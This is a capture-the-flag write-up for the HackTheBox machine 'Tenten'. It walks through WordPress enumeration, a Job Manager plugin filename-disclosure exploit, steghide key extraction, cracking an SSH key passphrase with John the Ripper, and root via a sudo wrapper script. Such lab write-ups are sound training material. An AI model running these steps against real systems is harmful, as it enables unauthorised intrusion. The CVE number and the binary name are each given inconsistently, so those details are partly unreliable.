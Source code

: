 # Tenten

This is the write-up for the box Tenten that got retired at the 16th July 2017.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.10    tenten.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/tenten.nmap 10.10.10.10
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.7.3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Job Portal &#8211; Just another WordPress site
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the web page we see a default WordPress page.
We can run **Wpscan** and **Nikto** to find some information and vulnerabilities against this service.
```markdown
wpscan --url http://10.10.10.10 --enumerate
```

We now know that this is WordPress version 4.7.3 from march 2017 and we get a username calld _takis_.
There is the plugin _Job Manager 0.7.25_ installed that has the vulnerability [CVE-2015-6668](https://vagmour.eu/cve-2015-6668-cv-filename-disclosure-on-job-manager-wordpress-plugin/) that we are going to exploit.

By clicking this link we get forwarded to **index.php/jobs**.

![Job Listing Link](tenten_jobs-1.png)

Clicking on the button to apply to the job forwards us to **index.php/jobs/apply/8**.
This number tends to be the name a row ID in the WordPress table.

![Apply Now Link](tenten_jobs-2.png)

By iterating through this number we get different pages for every number.
- 1: Hello world!
- 2: Sample Page
- 3: Auto Draft
- 4: _Empty_
- 5: Jobs Listing
- 6: Job Application
- 7: Register
- 8: Pen Tester
- 9: _Empty_
- 10: Application
- 11: cube
- 12: Application
- 13: HackerAccessGranted
- 14: _Empty_

Every number after 13 is just empty so we probably reached the end.
If we "apply" to the job and upload a file we should find that file by doing this procedure again.

![Uploading a file](tenten_jobs-3.png)

When we browse to the 15th ID we see that there is now a Title called **test** that was our input.
WordPress saves uploaded files in the directory **/wp-content/uploads/current_year/current_month/filename.extension**.

So in my case the file I uploaded is in:
> /wp-content/uploads/2019/11/test.jpg

Now we got Arbitrary File Upload but the application does not allow PHP files.
One interesting title is ID 13 with the name **HackerAccessGranted** whose files we should check.

We will use the Python script from the CVE-2019-6668 and modify the following lines to our needs:
```python
# (...)
for year in range(2017,2019):  
    for i in range(3,13):
        for extension in {'jpg','jpeg','png'}:
# (...)
```

After that we can execute the exploit:
```markdown
python CVE-2019-6668.py
```
```markdown
CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  

Enter a vulnerable website: http://10.10.10.10
Enter a file name: HackerAccessGranted
[+] URL of CV found! http://10.10.10.10/wp-content/uploads/2017/04/HackerAccessGranted.jpg
```

This finds a JPG file from the mysterious user that we download to analyze further.

### Analyzing the image file

This is kind of a guessing game but there is data hidden in this file via **Steganography**.
We will use **Steghide** to extract the data from there without putting any password:
```markdown
steghide extract -sf HackerAccessGranted.jpg
```

This extracts a file called **id_rsa** which is a RSA-encrypted private key to use with SSH.

#### Decrypting the key

On the first few lines we can see that this key is encrypted with _AES-128-CBC_:
```markdown
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,7265FC656C429769E4C1EEFC618E660C
(...)
```

By using [sshng2john](https://github.com/stricture/hashstack-server-plugin-jtr/blob/master/scrapers/sshng2john.py) we bring this to a format that is crackable:
```markdown
python sshng2john.py id_rsa
```

Now using the password cracking tool **JohnTheRipper** to crack this:
```markdown
john id_rsa.encrypted --wordlist=/usr/share/wordlists/rockyou.txt
```

After a while we cracked the password for this key:
> superpassword

## Checking SSH (Port 22)

We change the permissions of the key to _600_ as it should be and can now login with SSH on the box:
```markdown
chmod 600 id_rsa

ssh -i id_rsa takis@10.10.10.10
```

We try it with the user _takis_ because that is the only user we enumerated and we are logged in.

## Privilege Escalation

When we look at the commands that _takis_ can execute as root via sudo, we see the file **/bin/fuckin**.
Analyzing it, it executes arguments:
```markdown
cat /bin/fuckin

# Output
#!/bin/bash
$1 $2 $3 $4
```

So if we run this with `sudo` and give it the argument `bash` we should start a Bourne-Shell as root:
```markdown
sudo /bin/fucking bash
```

It does start a session with root and we can read the flag!
